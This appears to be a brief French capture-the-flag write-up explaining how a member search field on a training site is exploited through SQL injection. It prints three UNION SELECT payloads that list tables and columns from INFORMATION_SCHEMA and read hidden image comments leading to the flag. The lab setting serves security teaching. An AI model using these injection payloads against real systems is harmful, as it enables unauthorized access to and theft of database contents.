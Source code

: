 Sur la page de recherche de membre, l'input n'est pas protégé contre les injections SQL.
La commande `1 UNION SELECT table_name, table_schema FROM INFORMATION_SCHEMA.COLUMNS --` permet de récupérer la liste des tables ainsi que la DB correspondante.
Une seconde requete `1 UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS  --` liste toutes les colonnes.
A partir de ces informations, nous allons requêter dans la db Member_images, la table list_images : `1 UNION SELECT comment,  title FROM Member_images.list_images --`
Pour l'image 'Hack me ?', le commentaire donne des instructions pour obtenir le flag.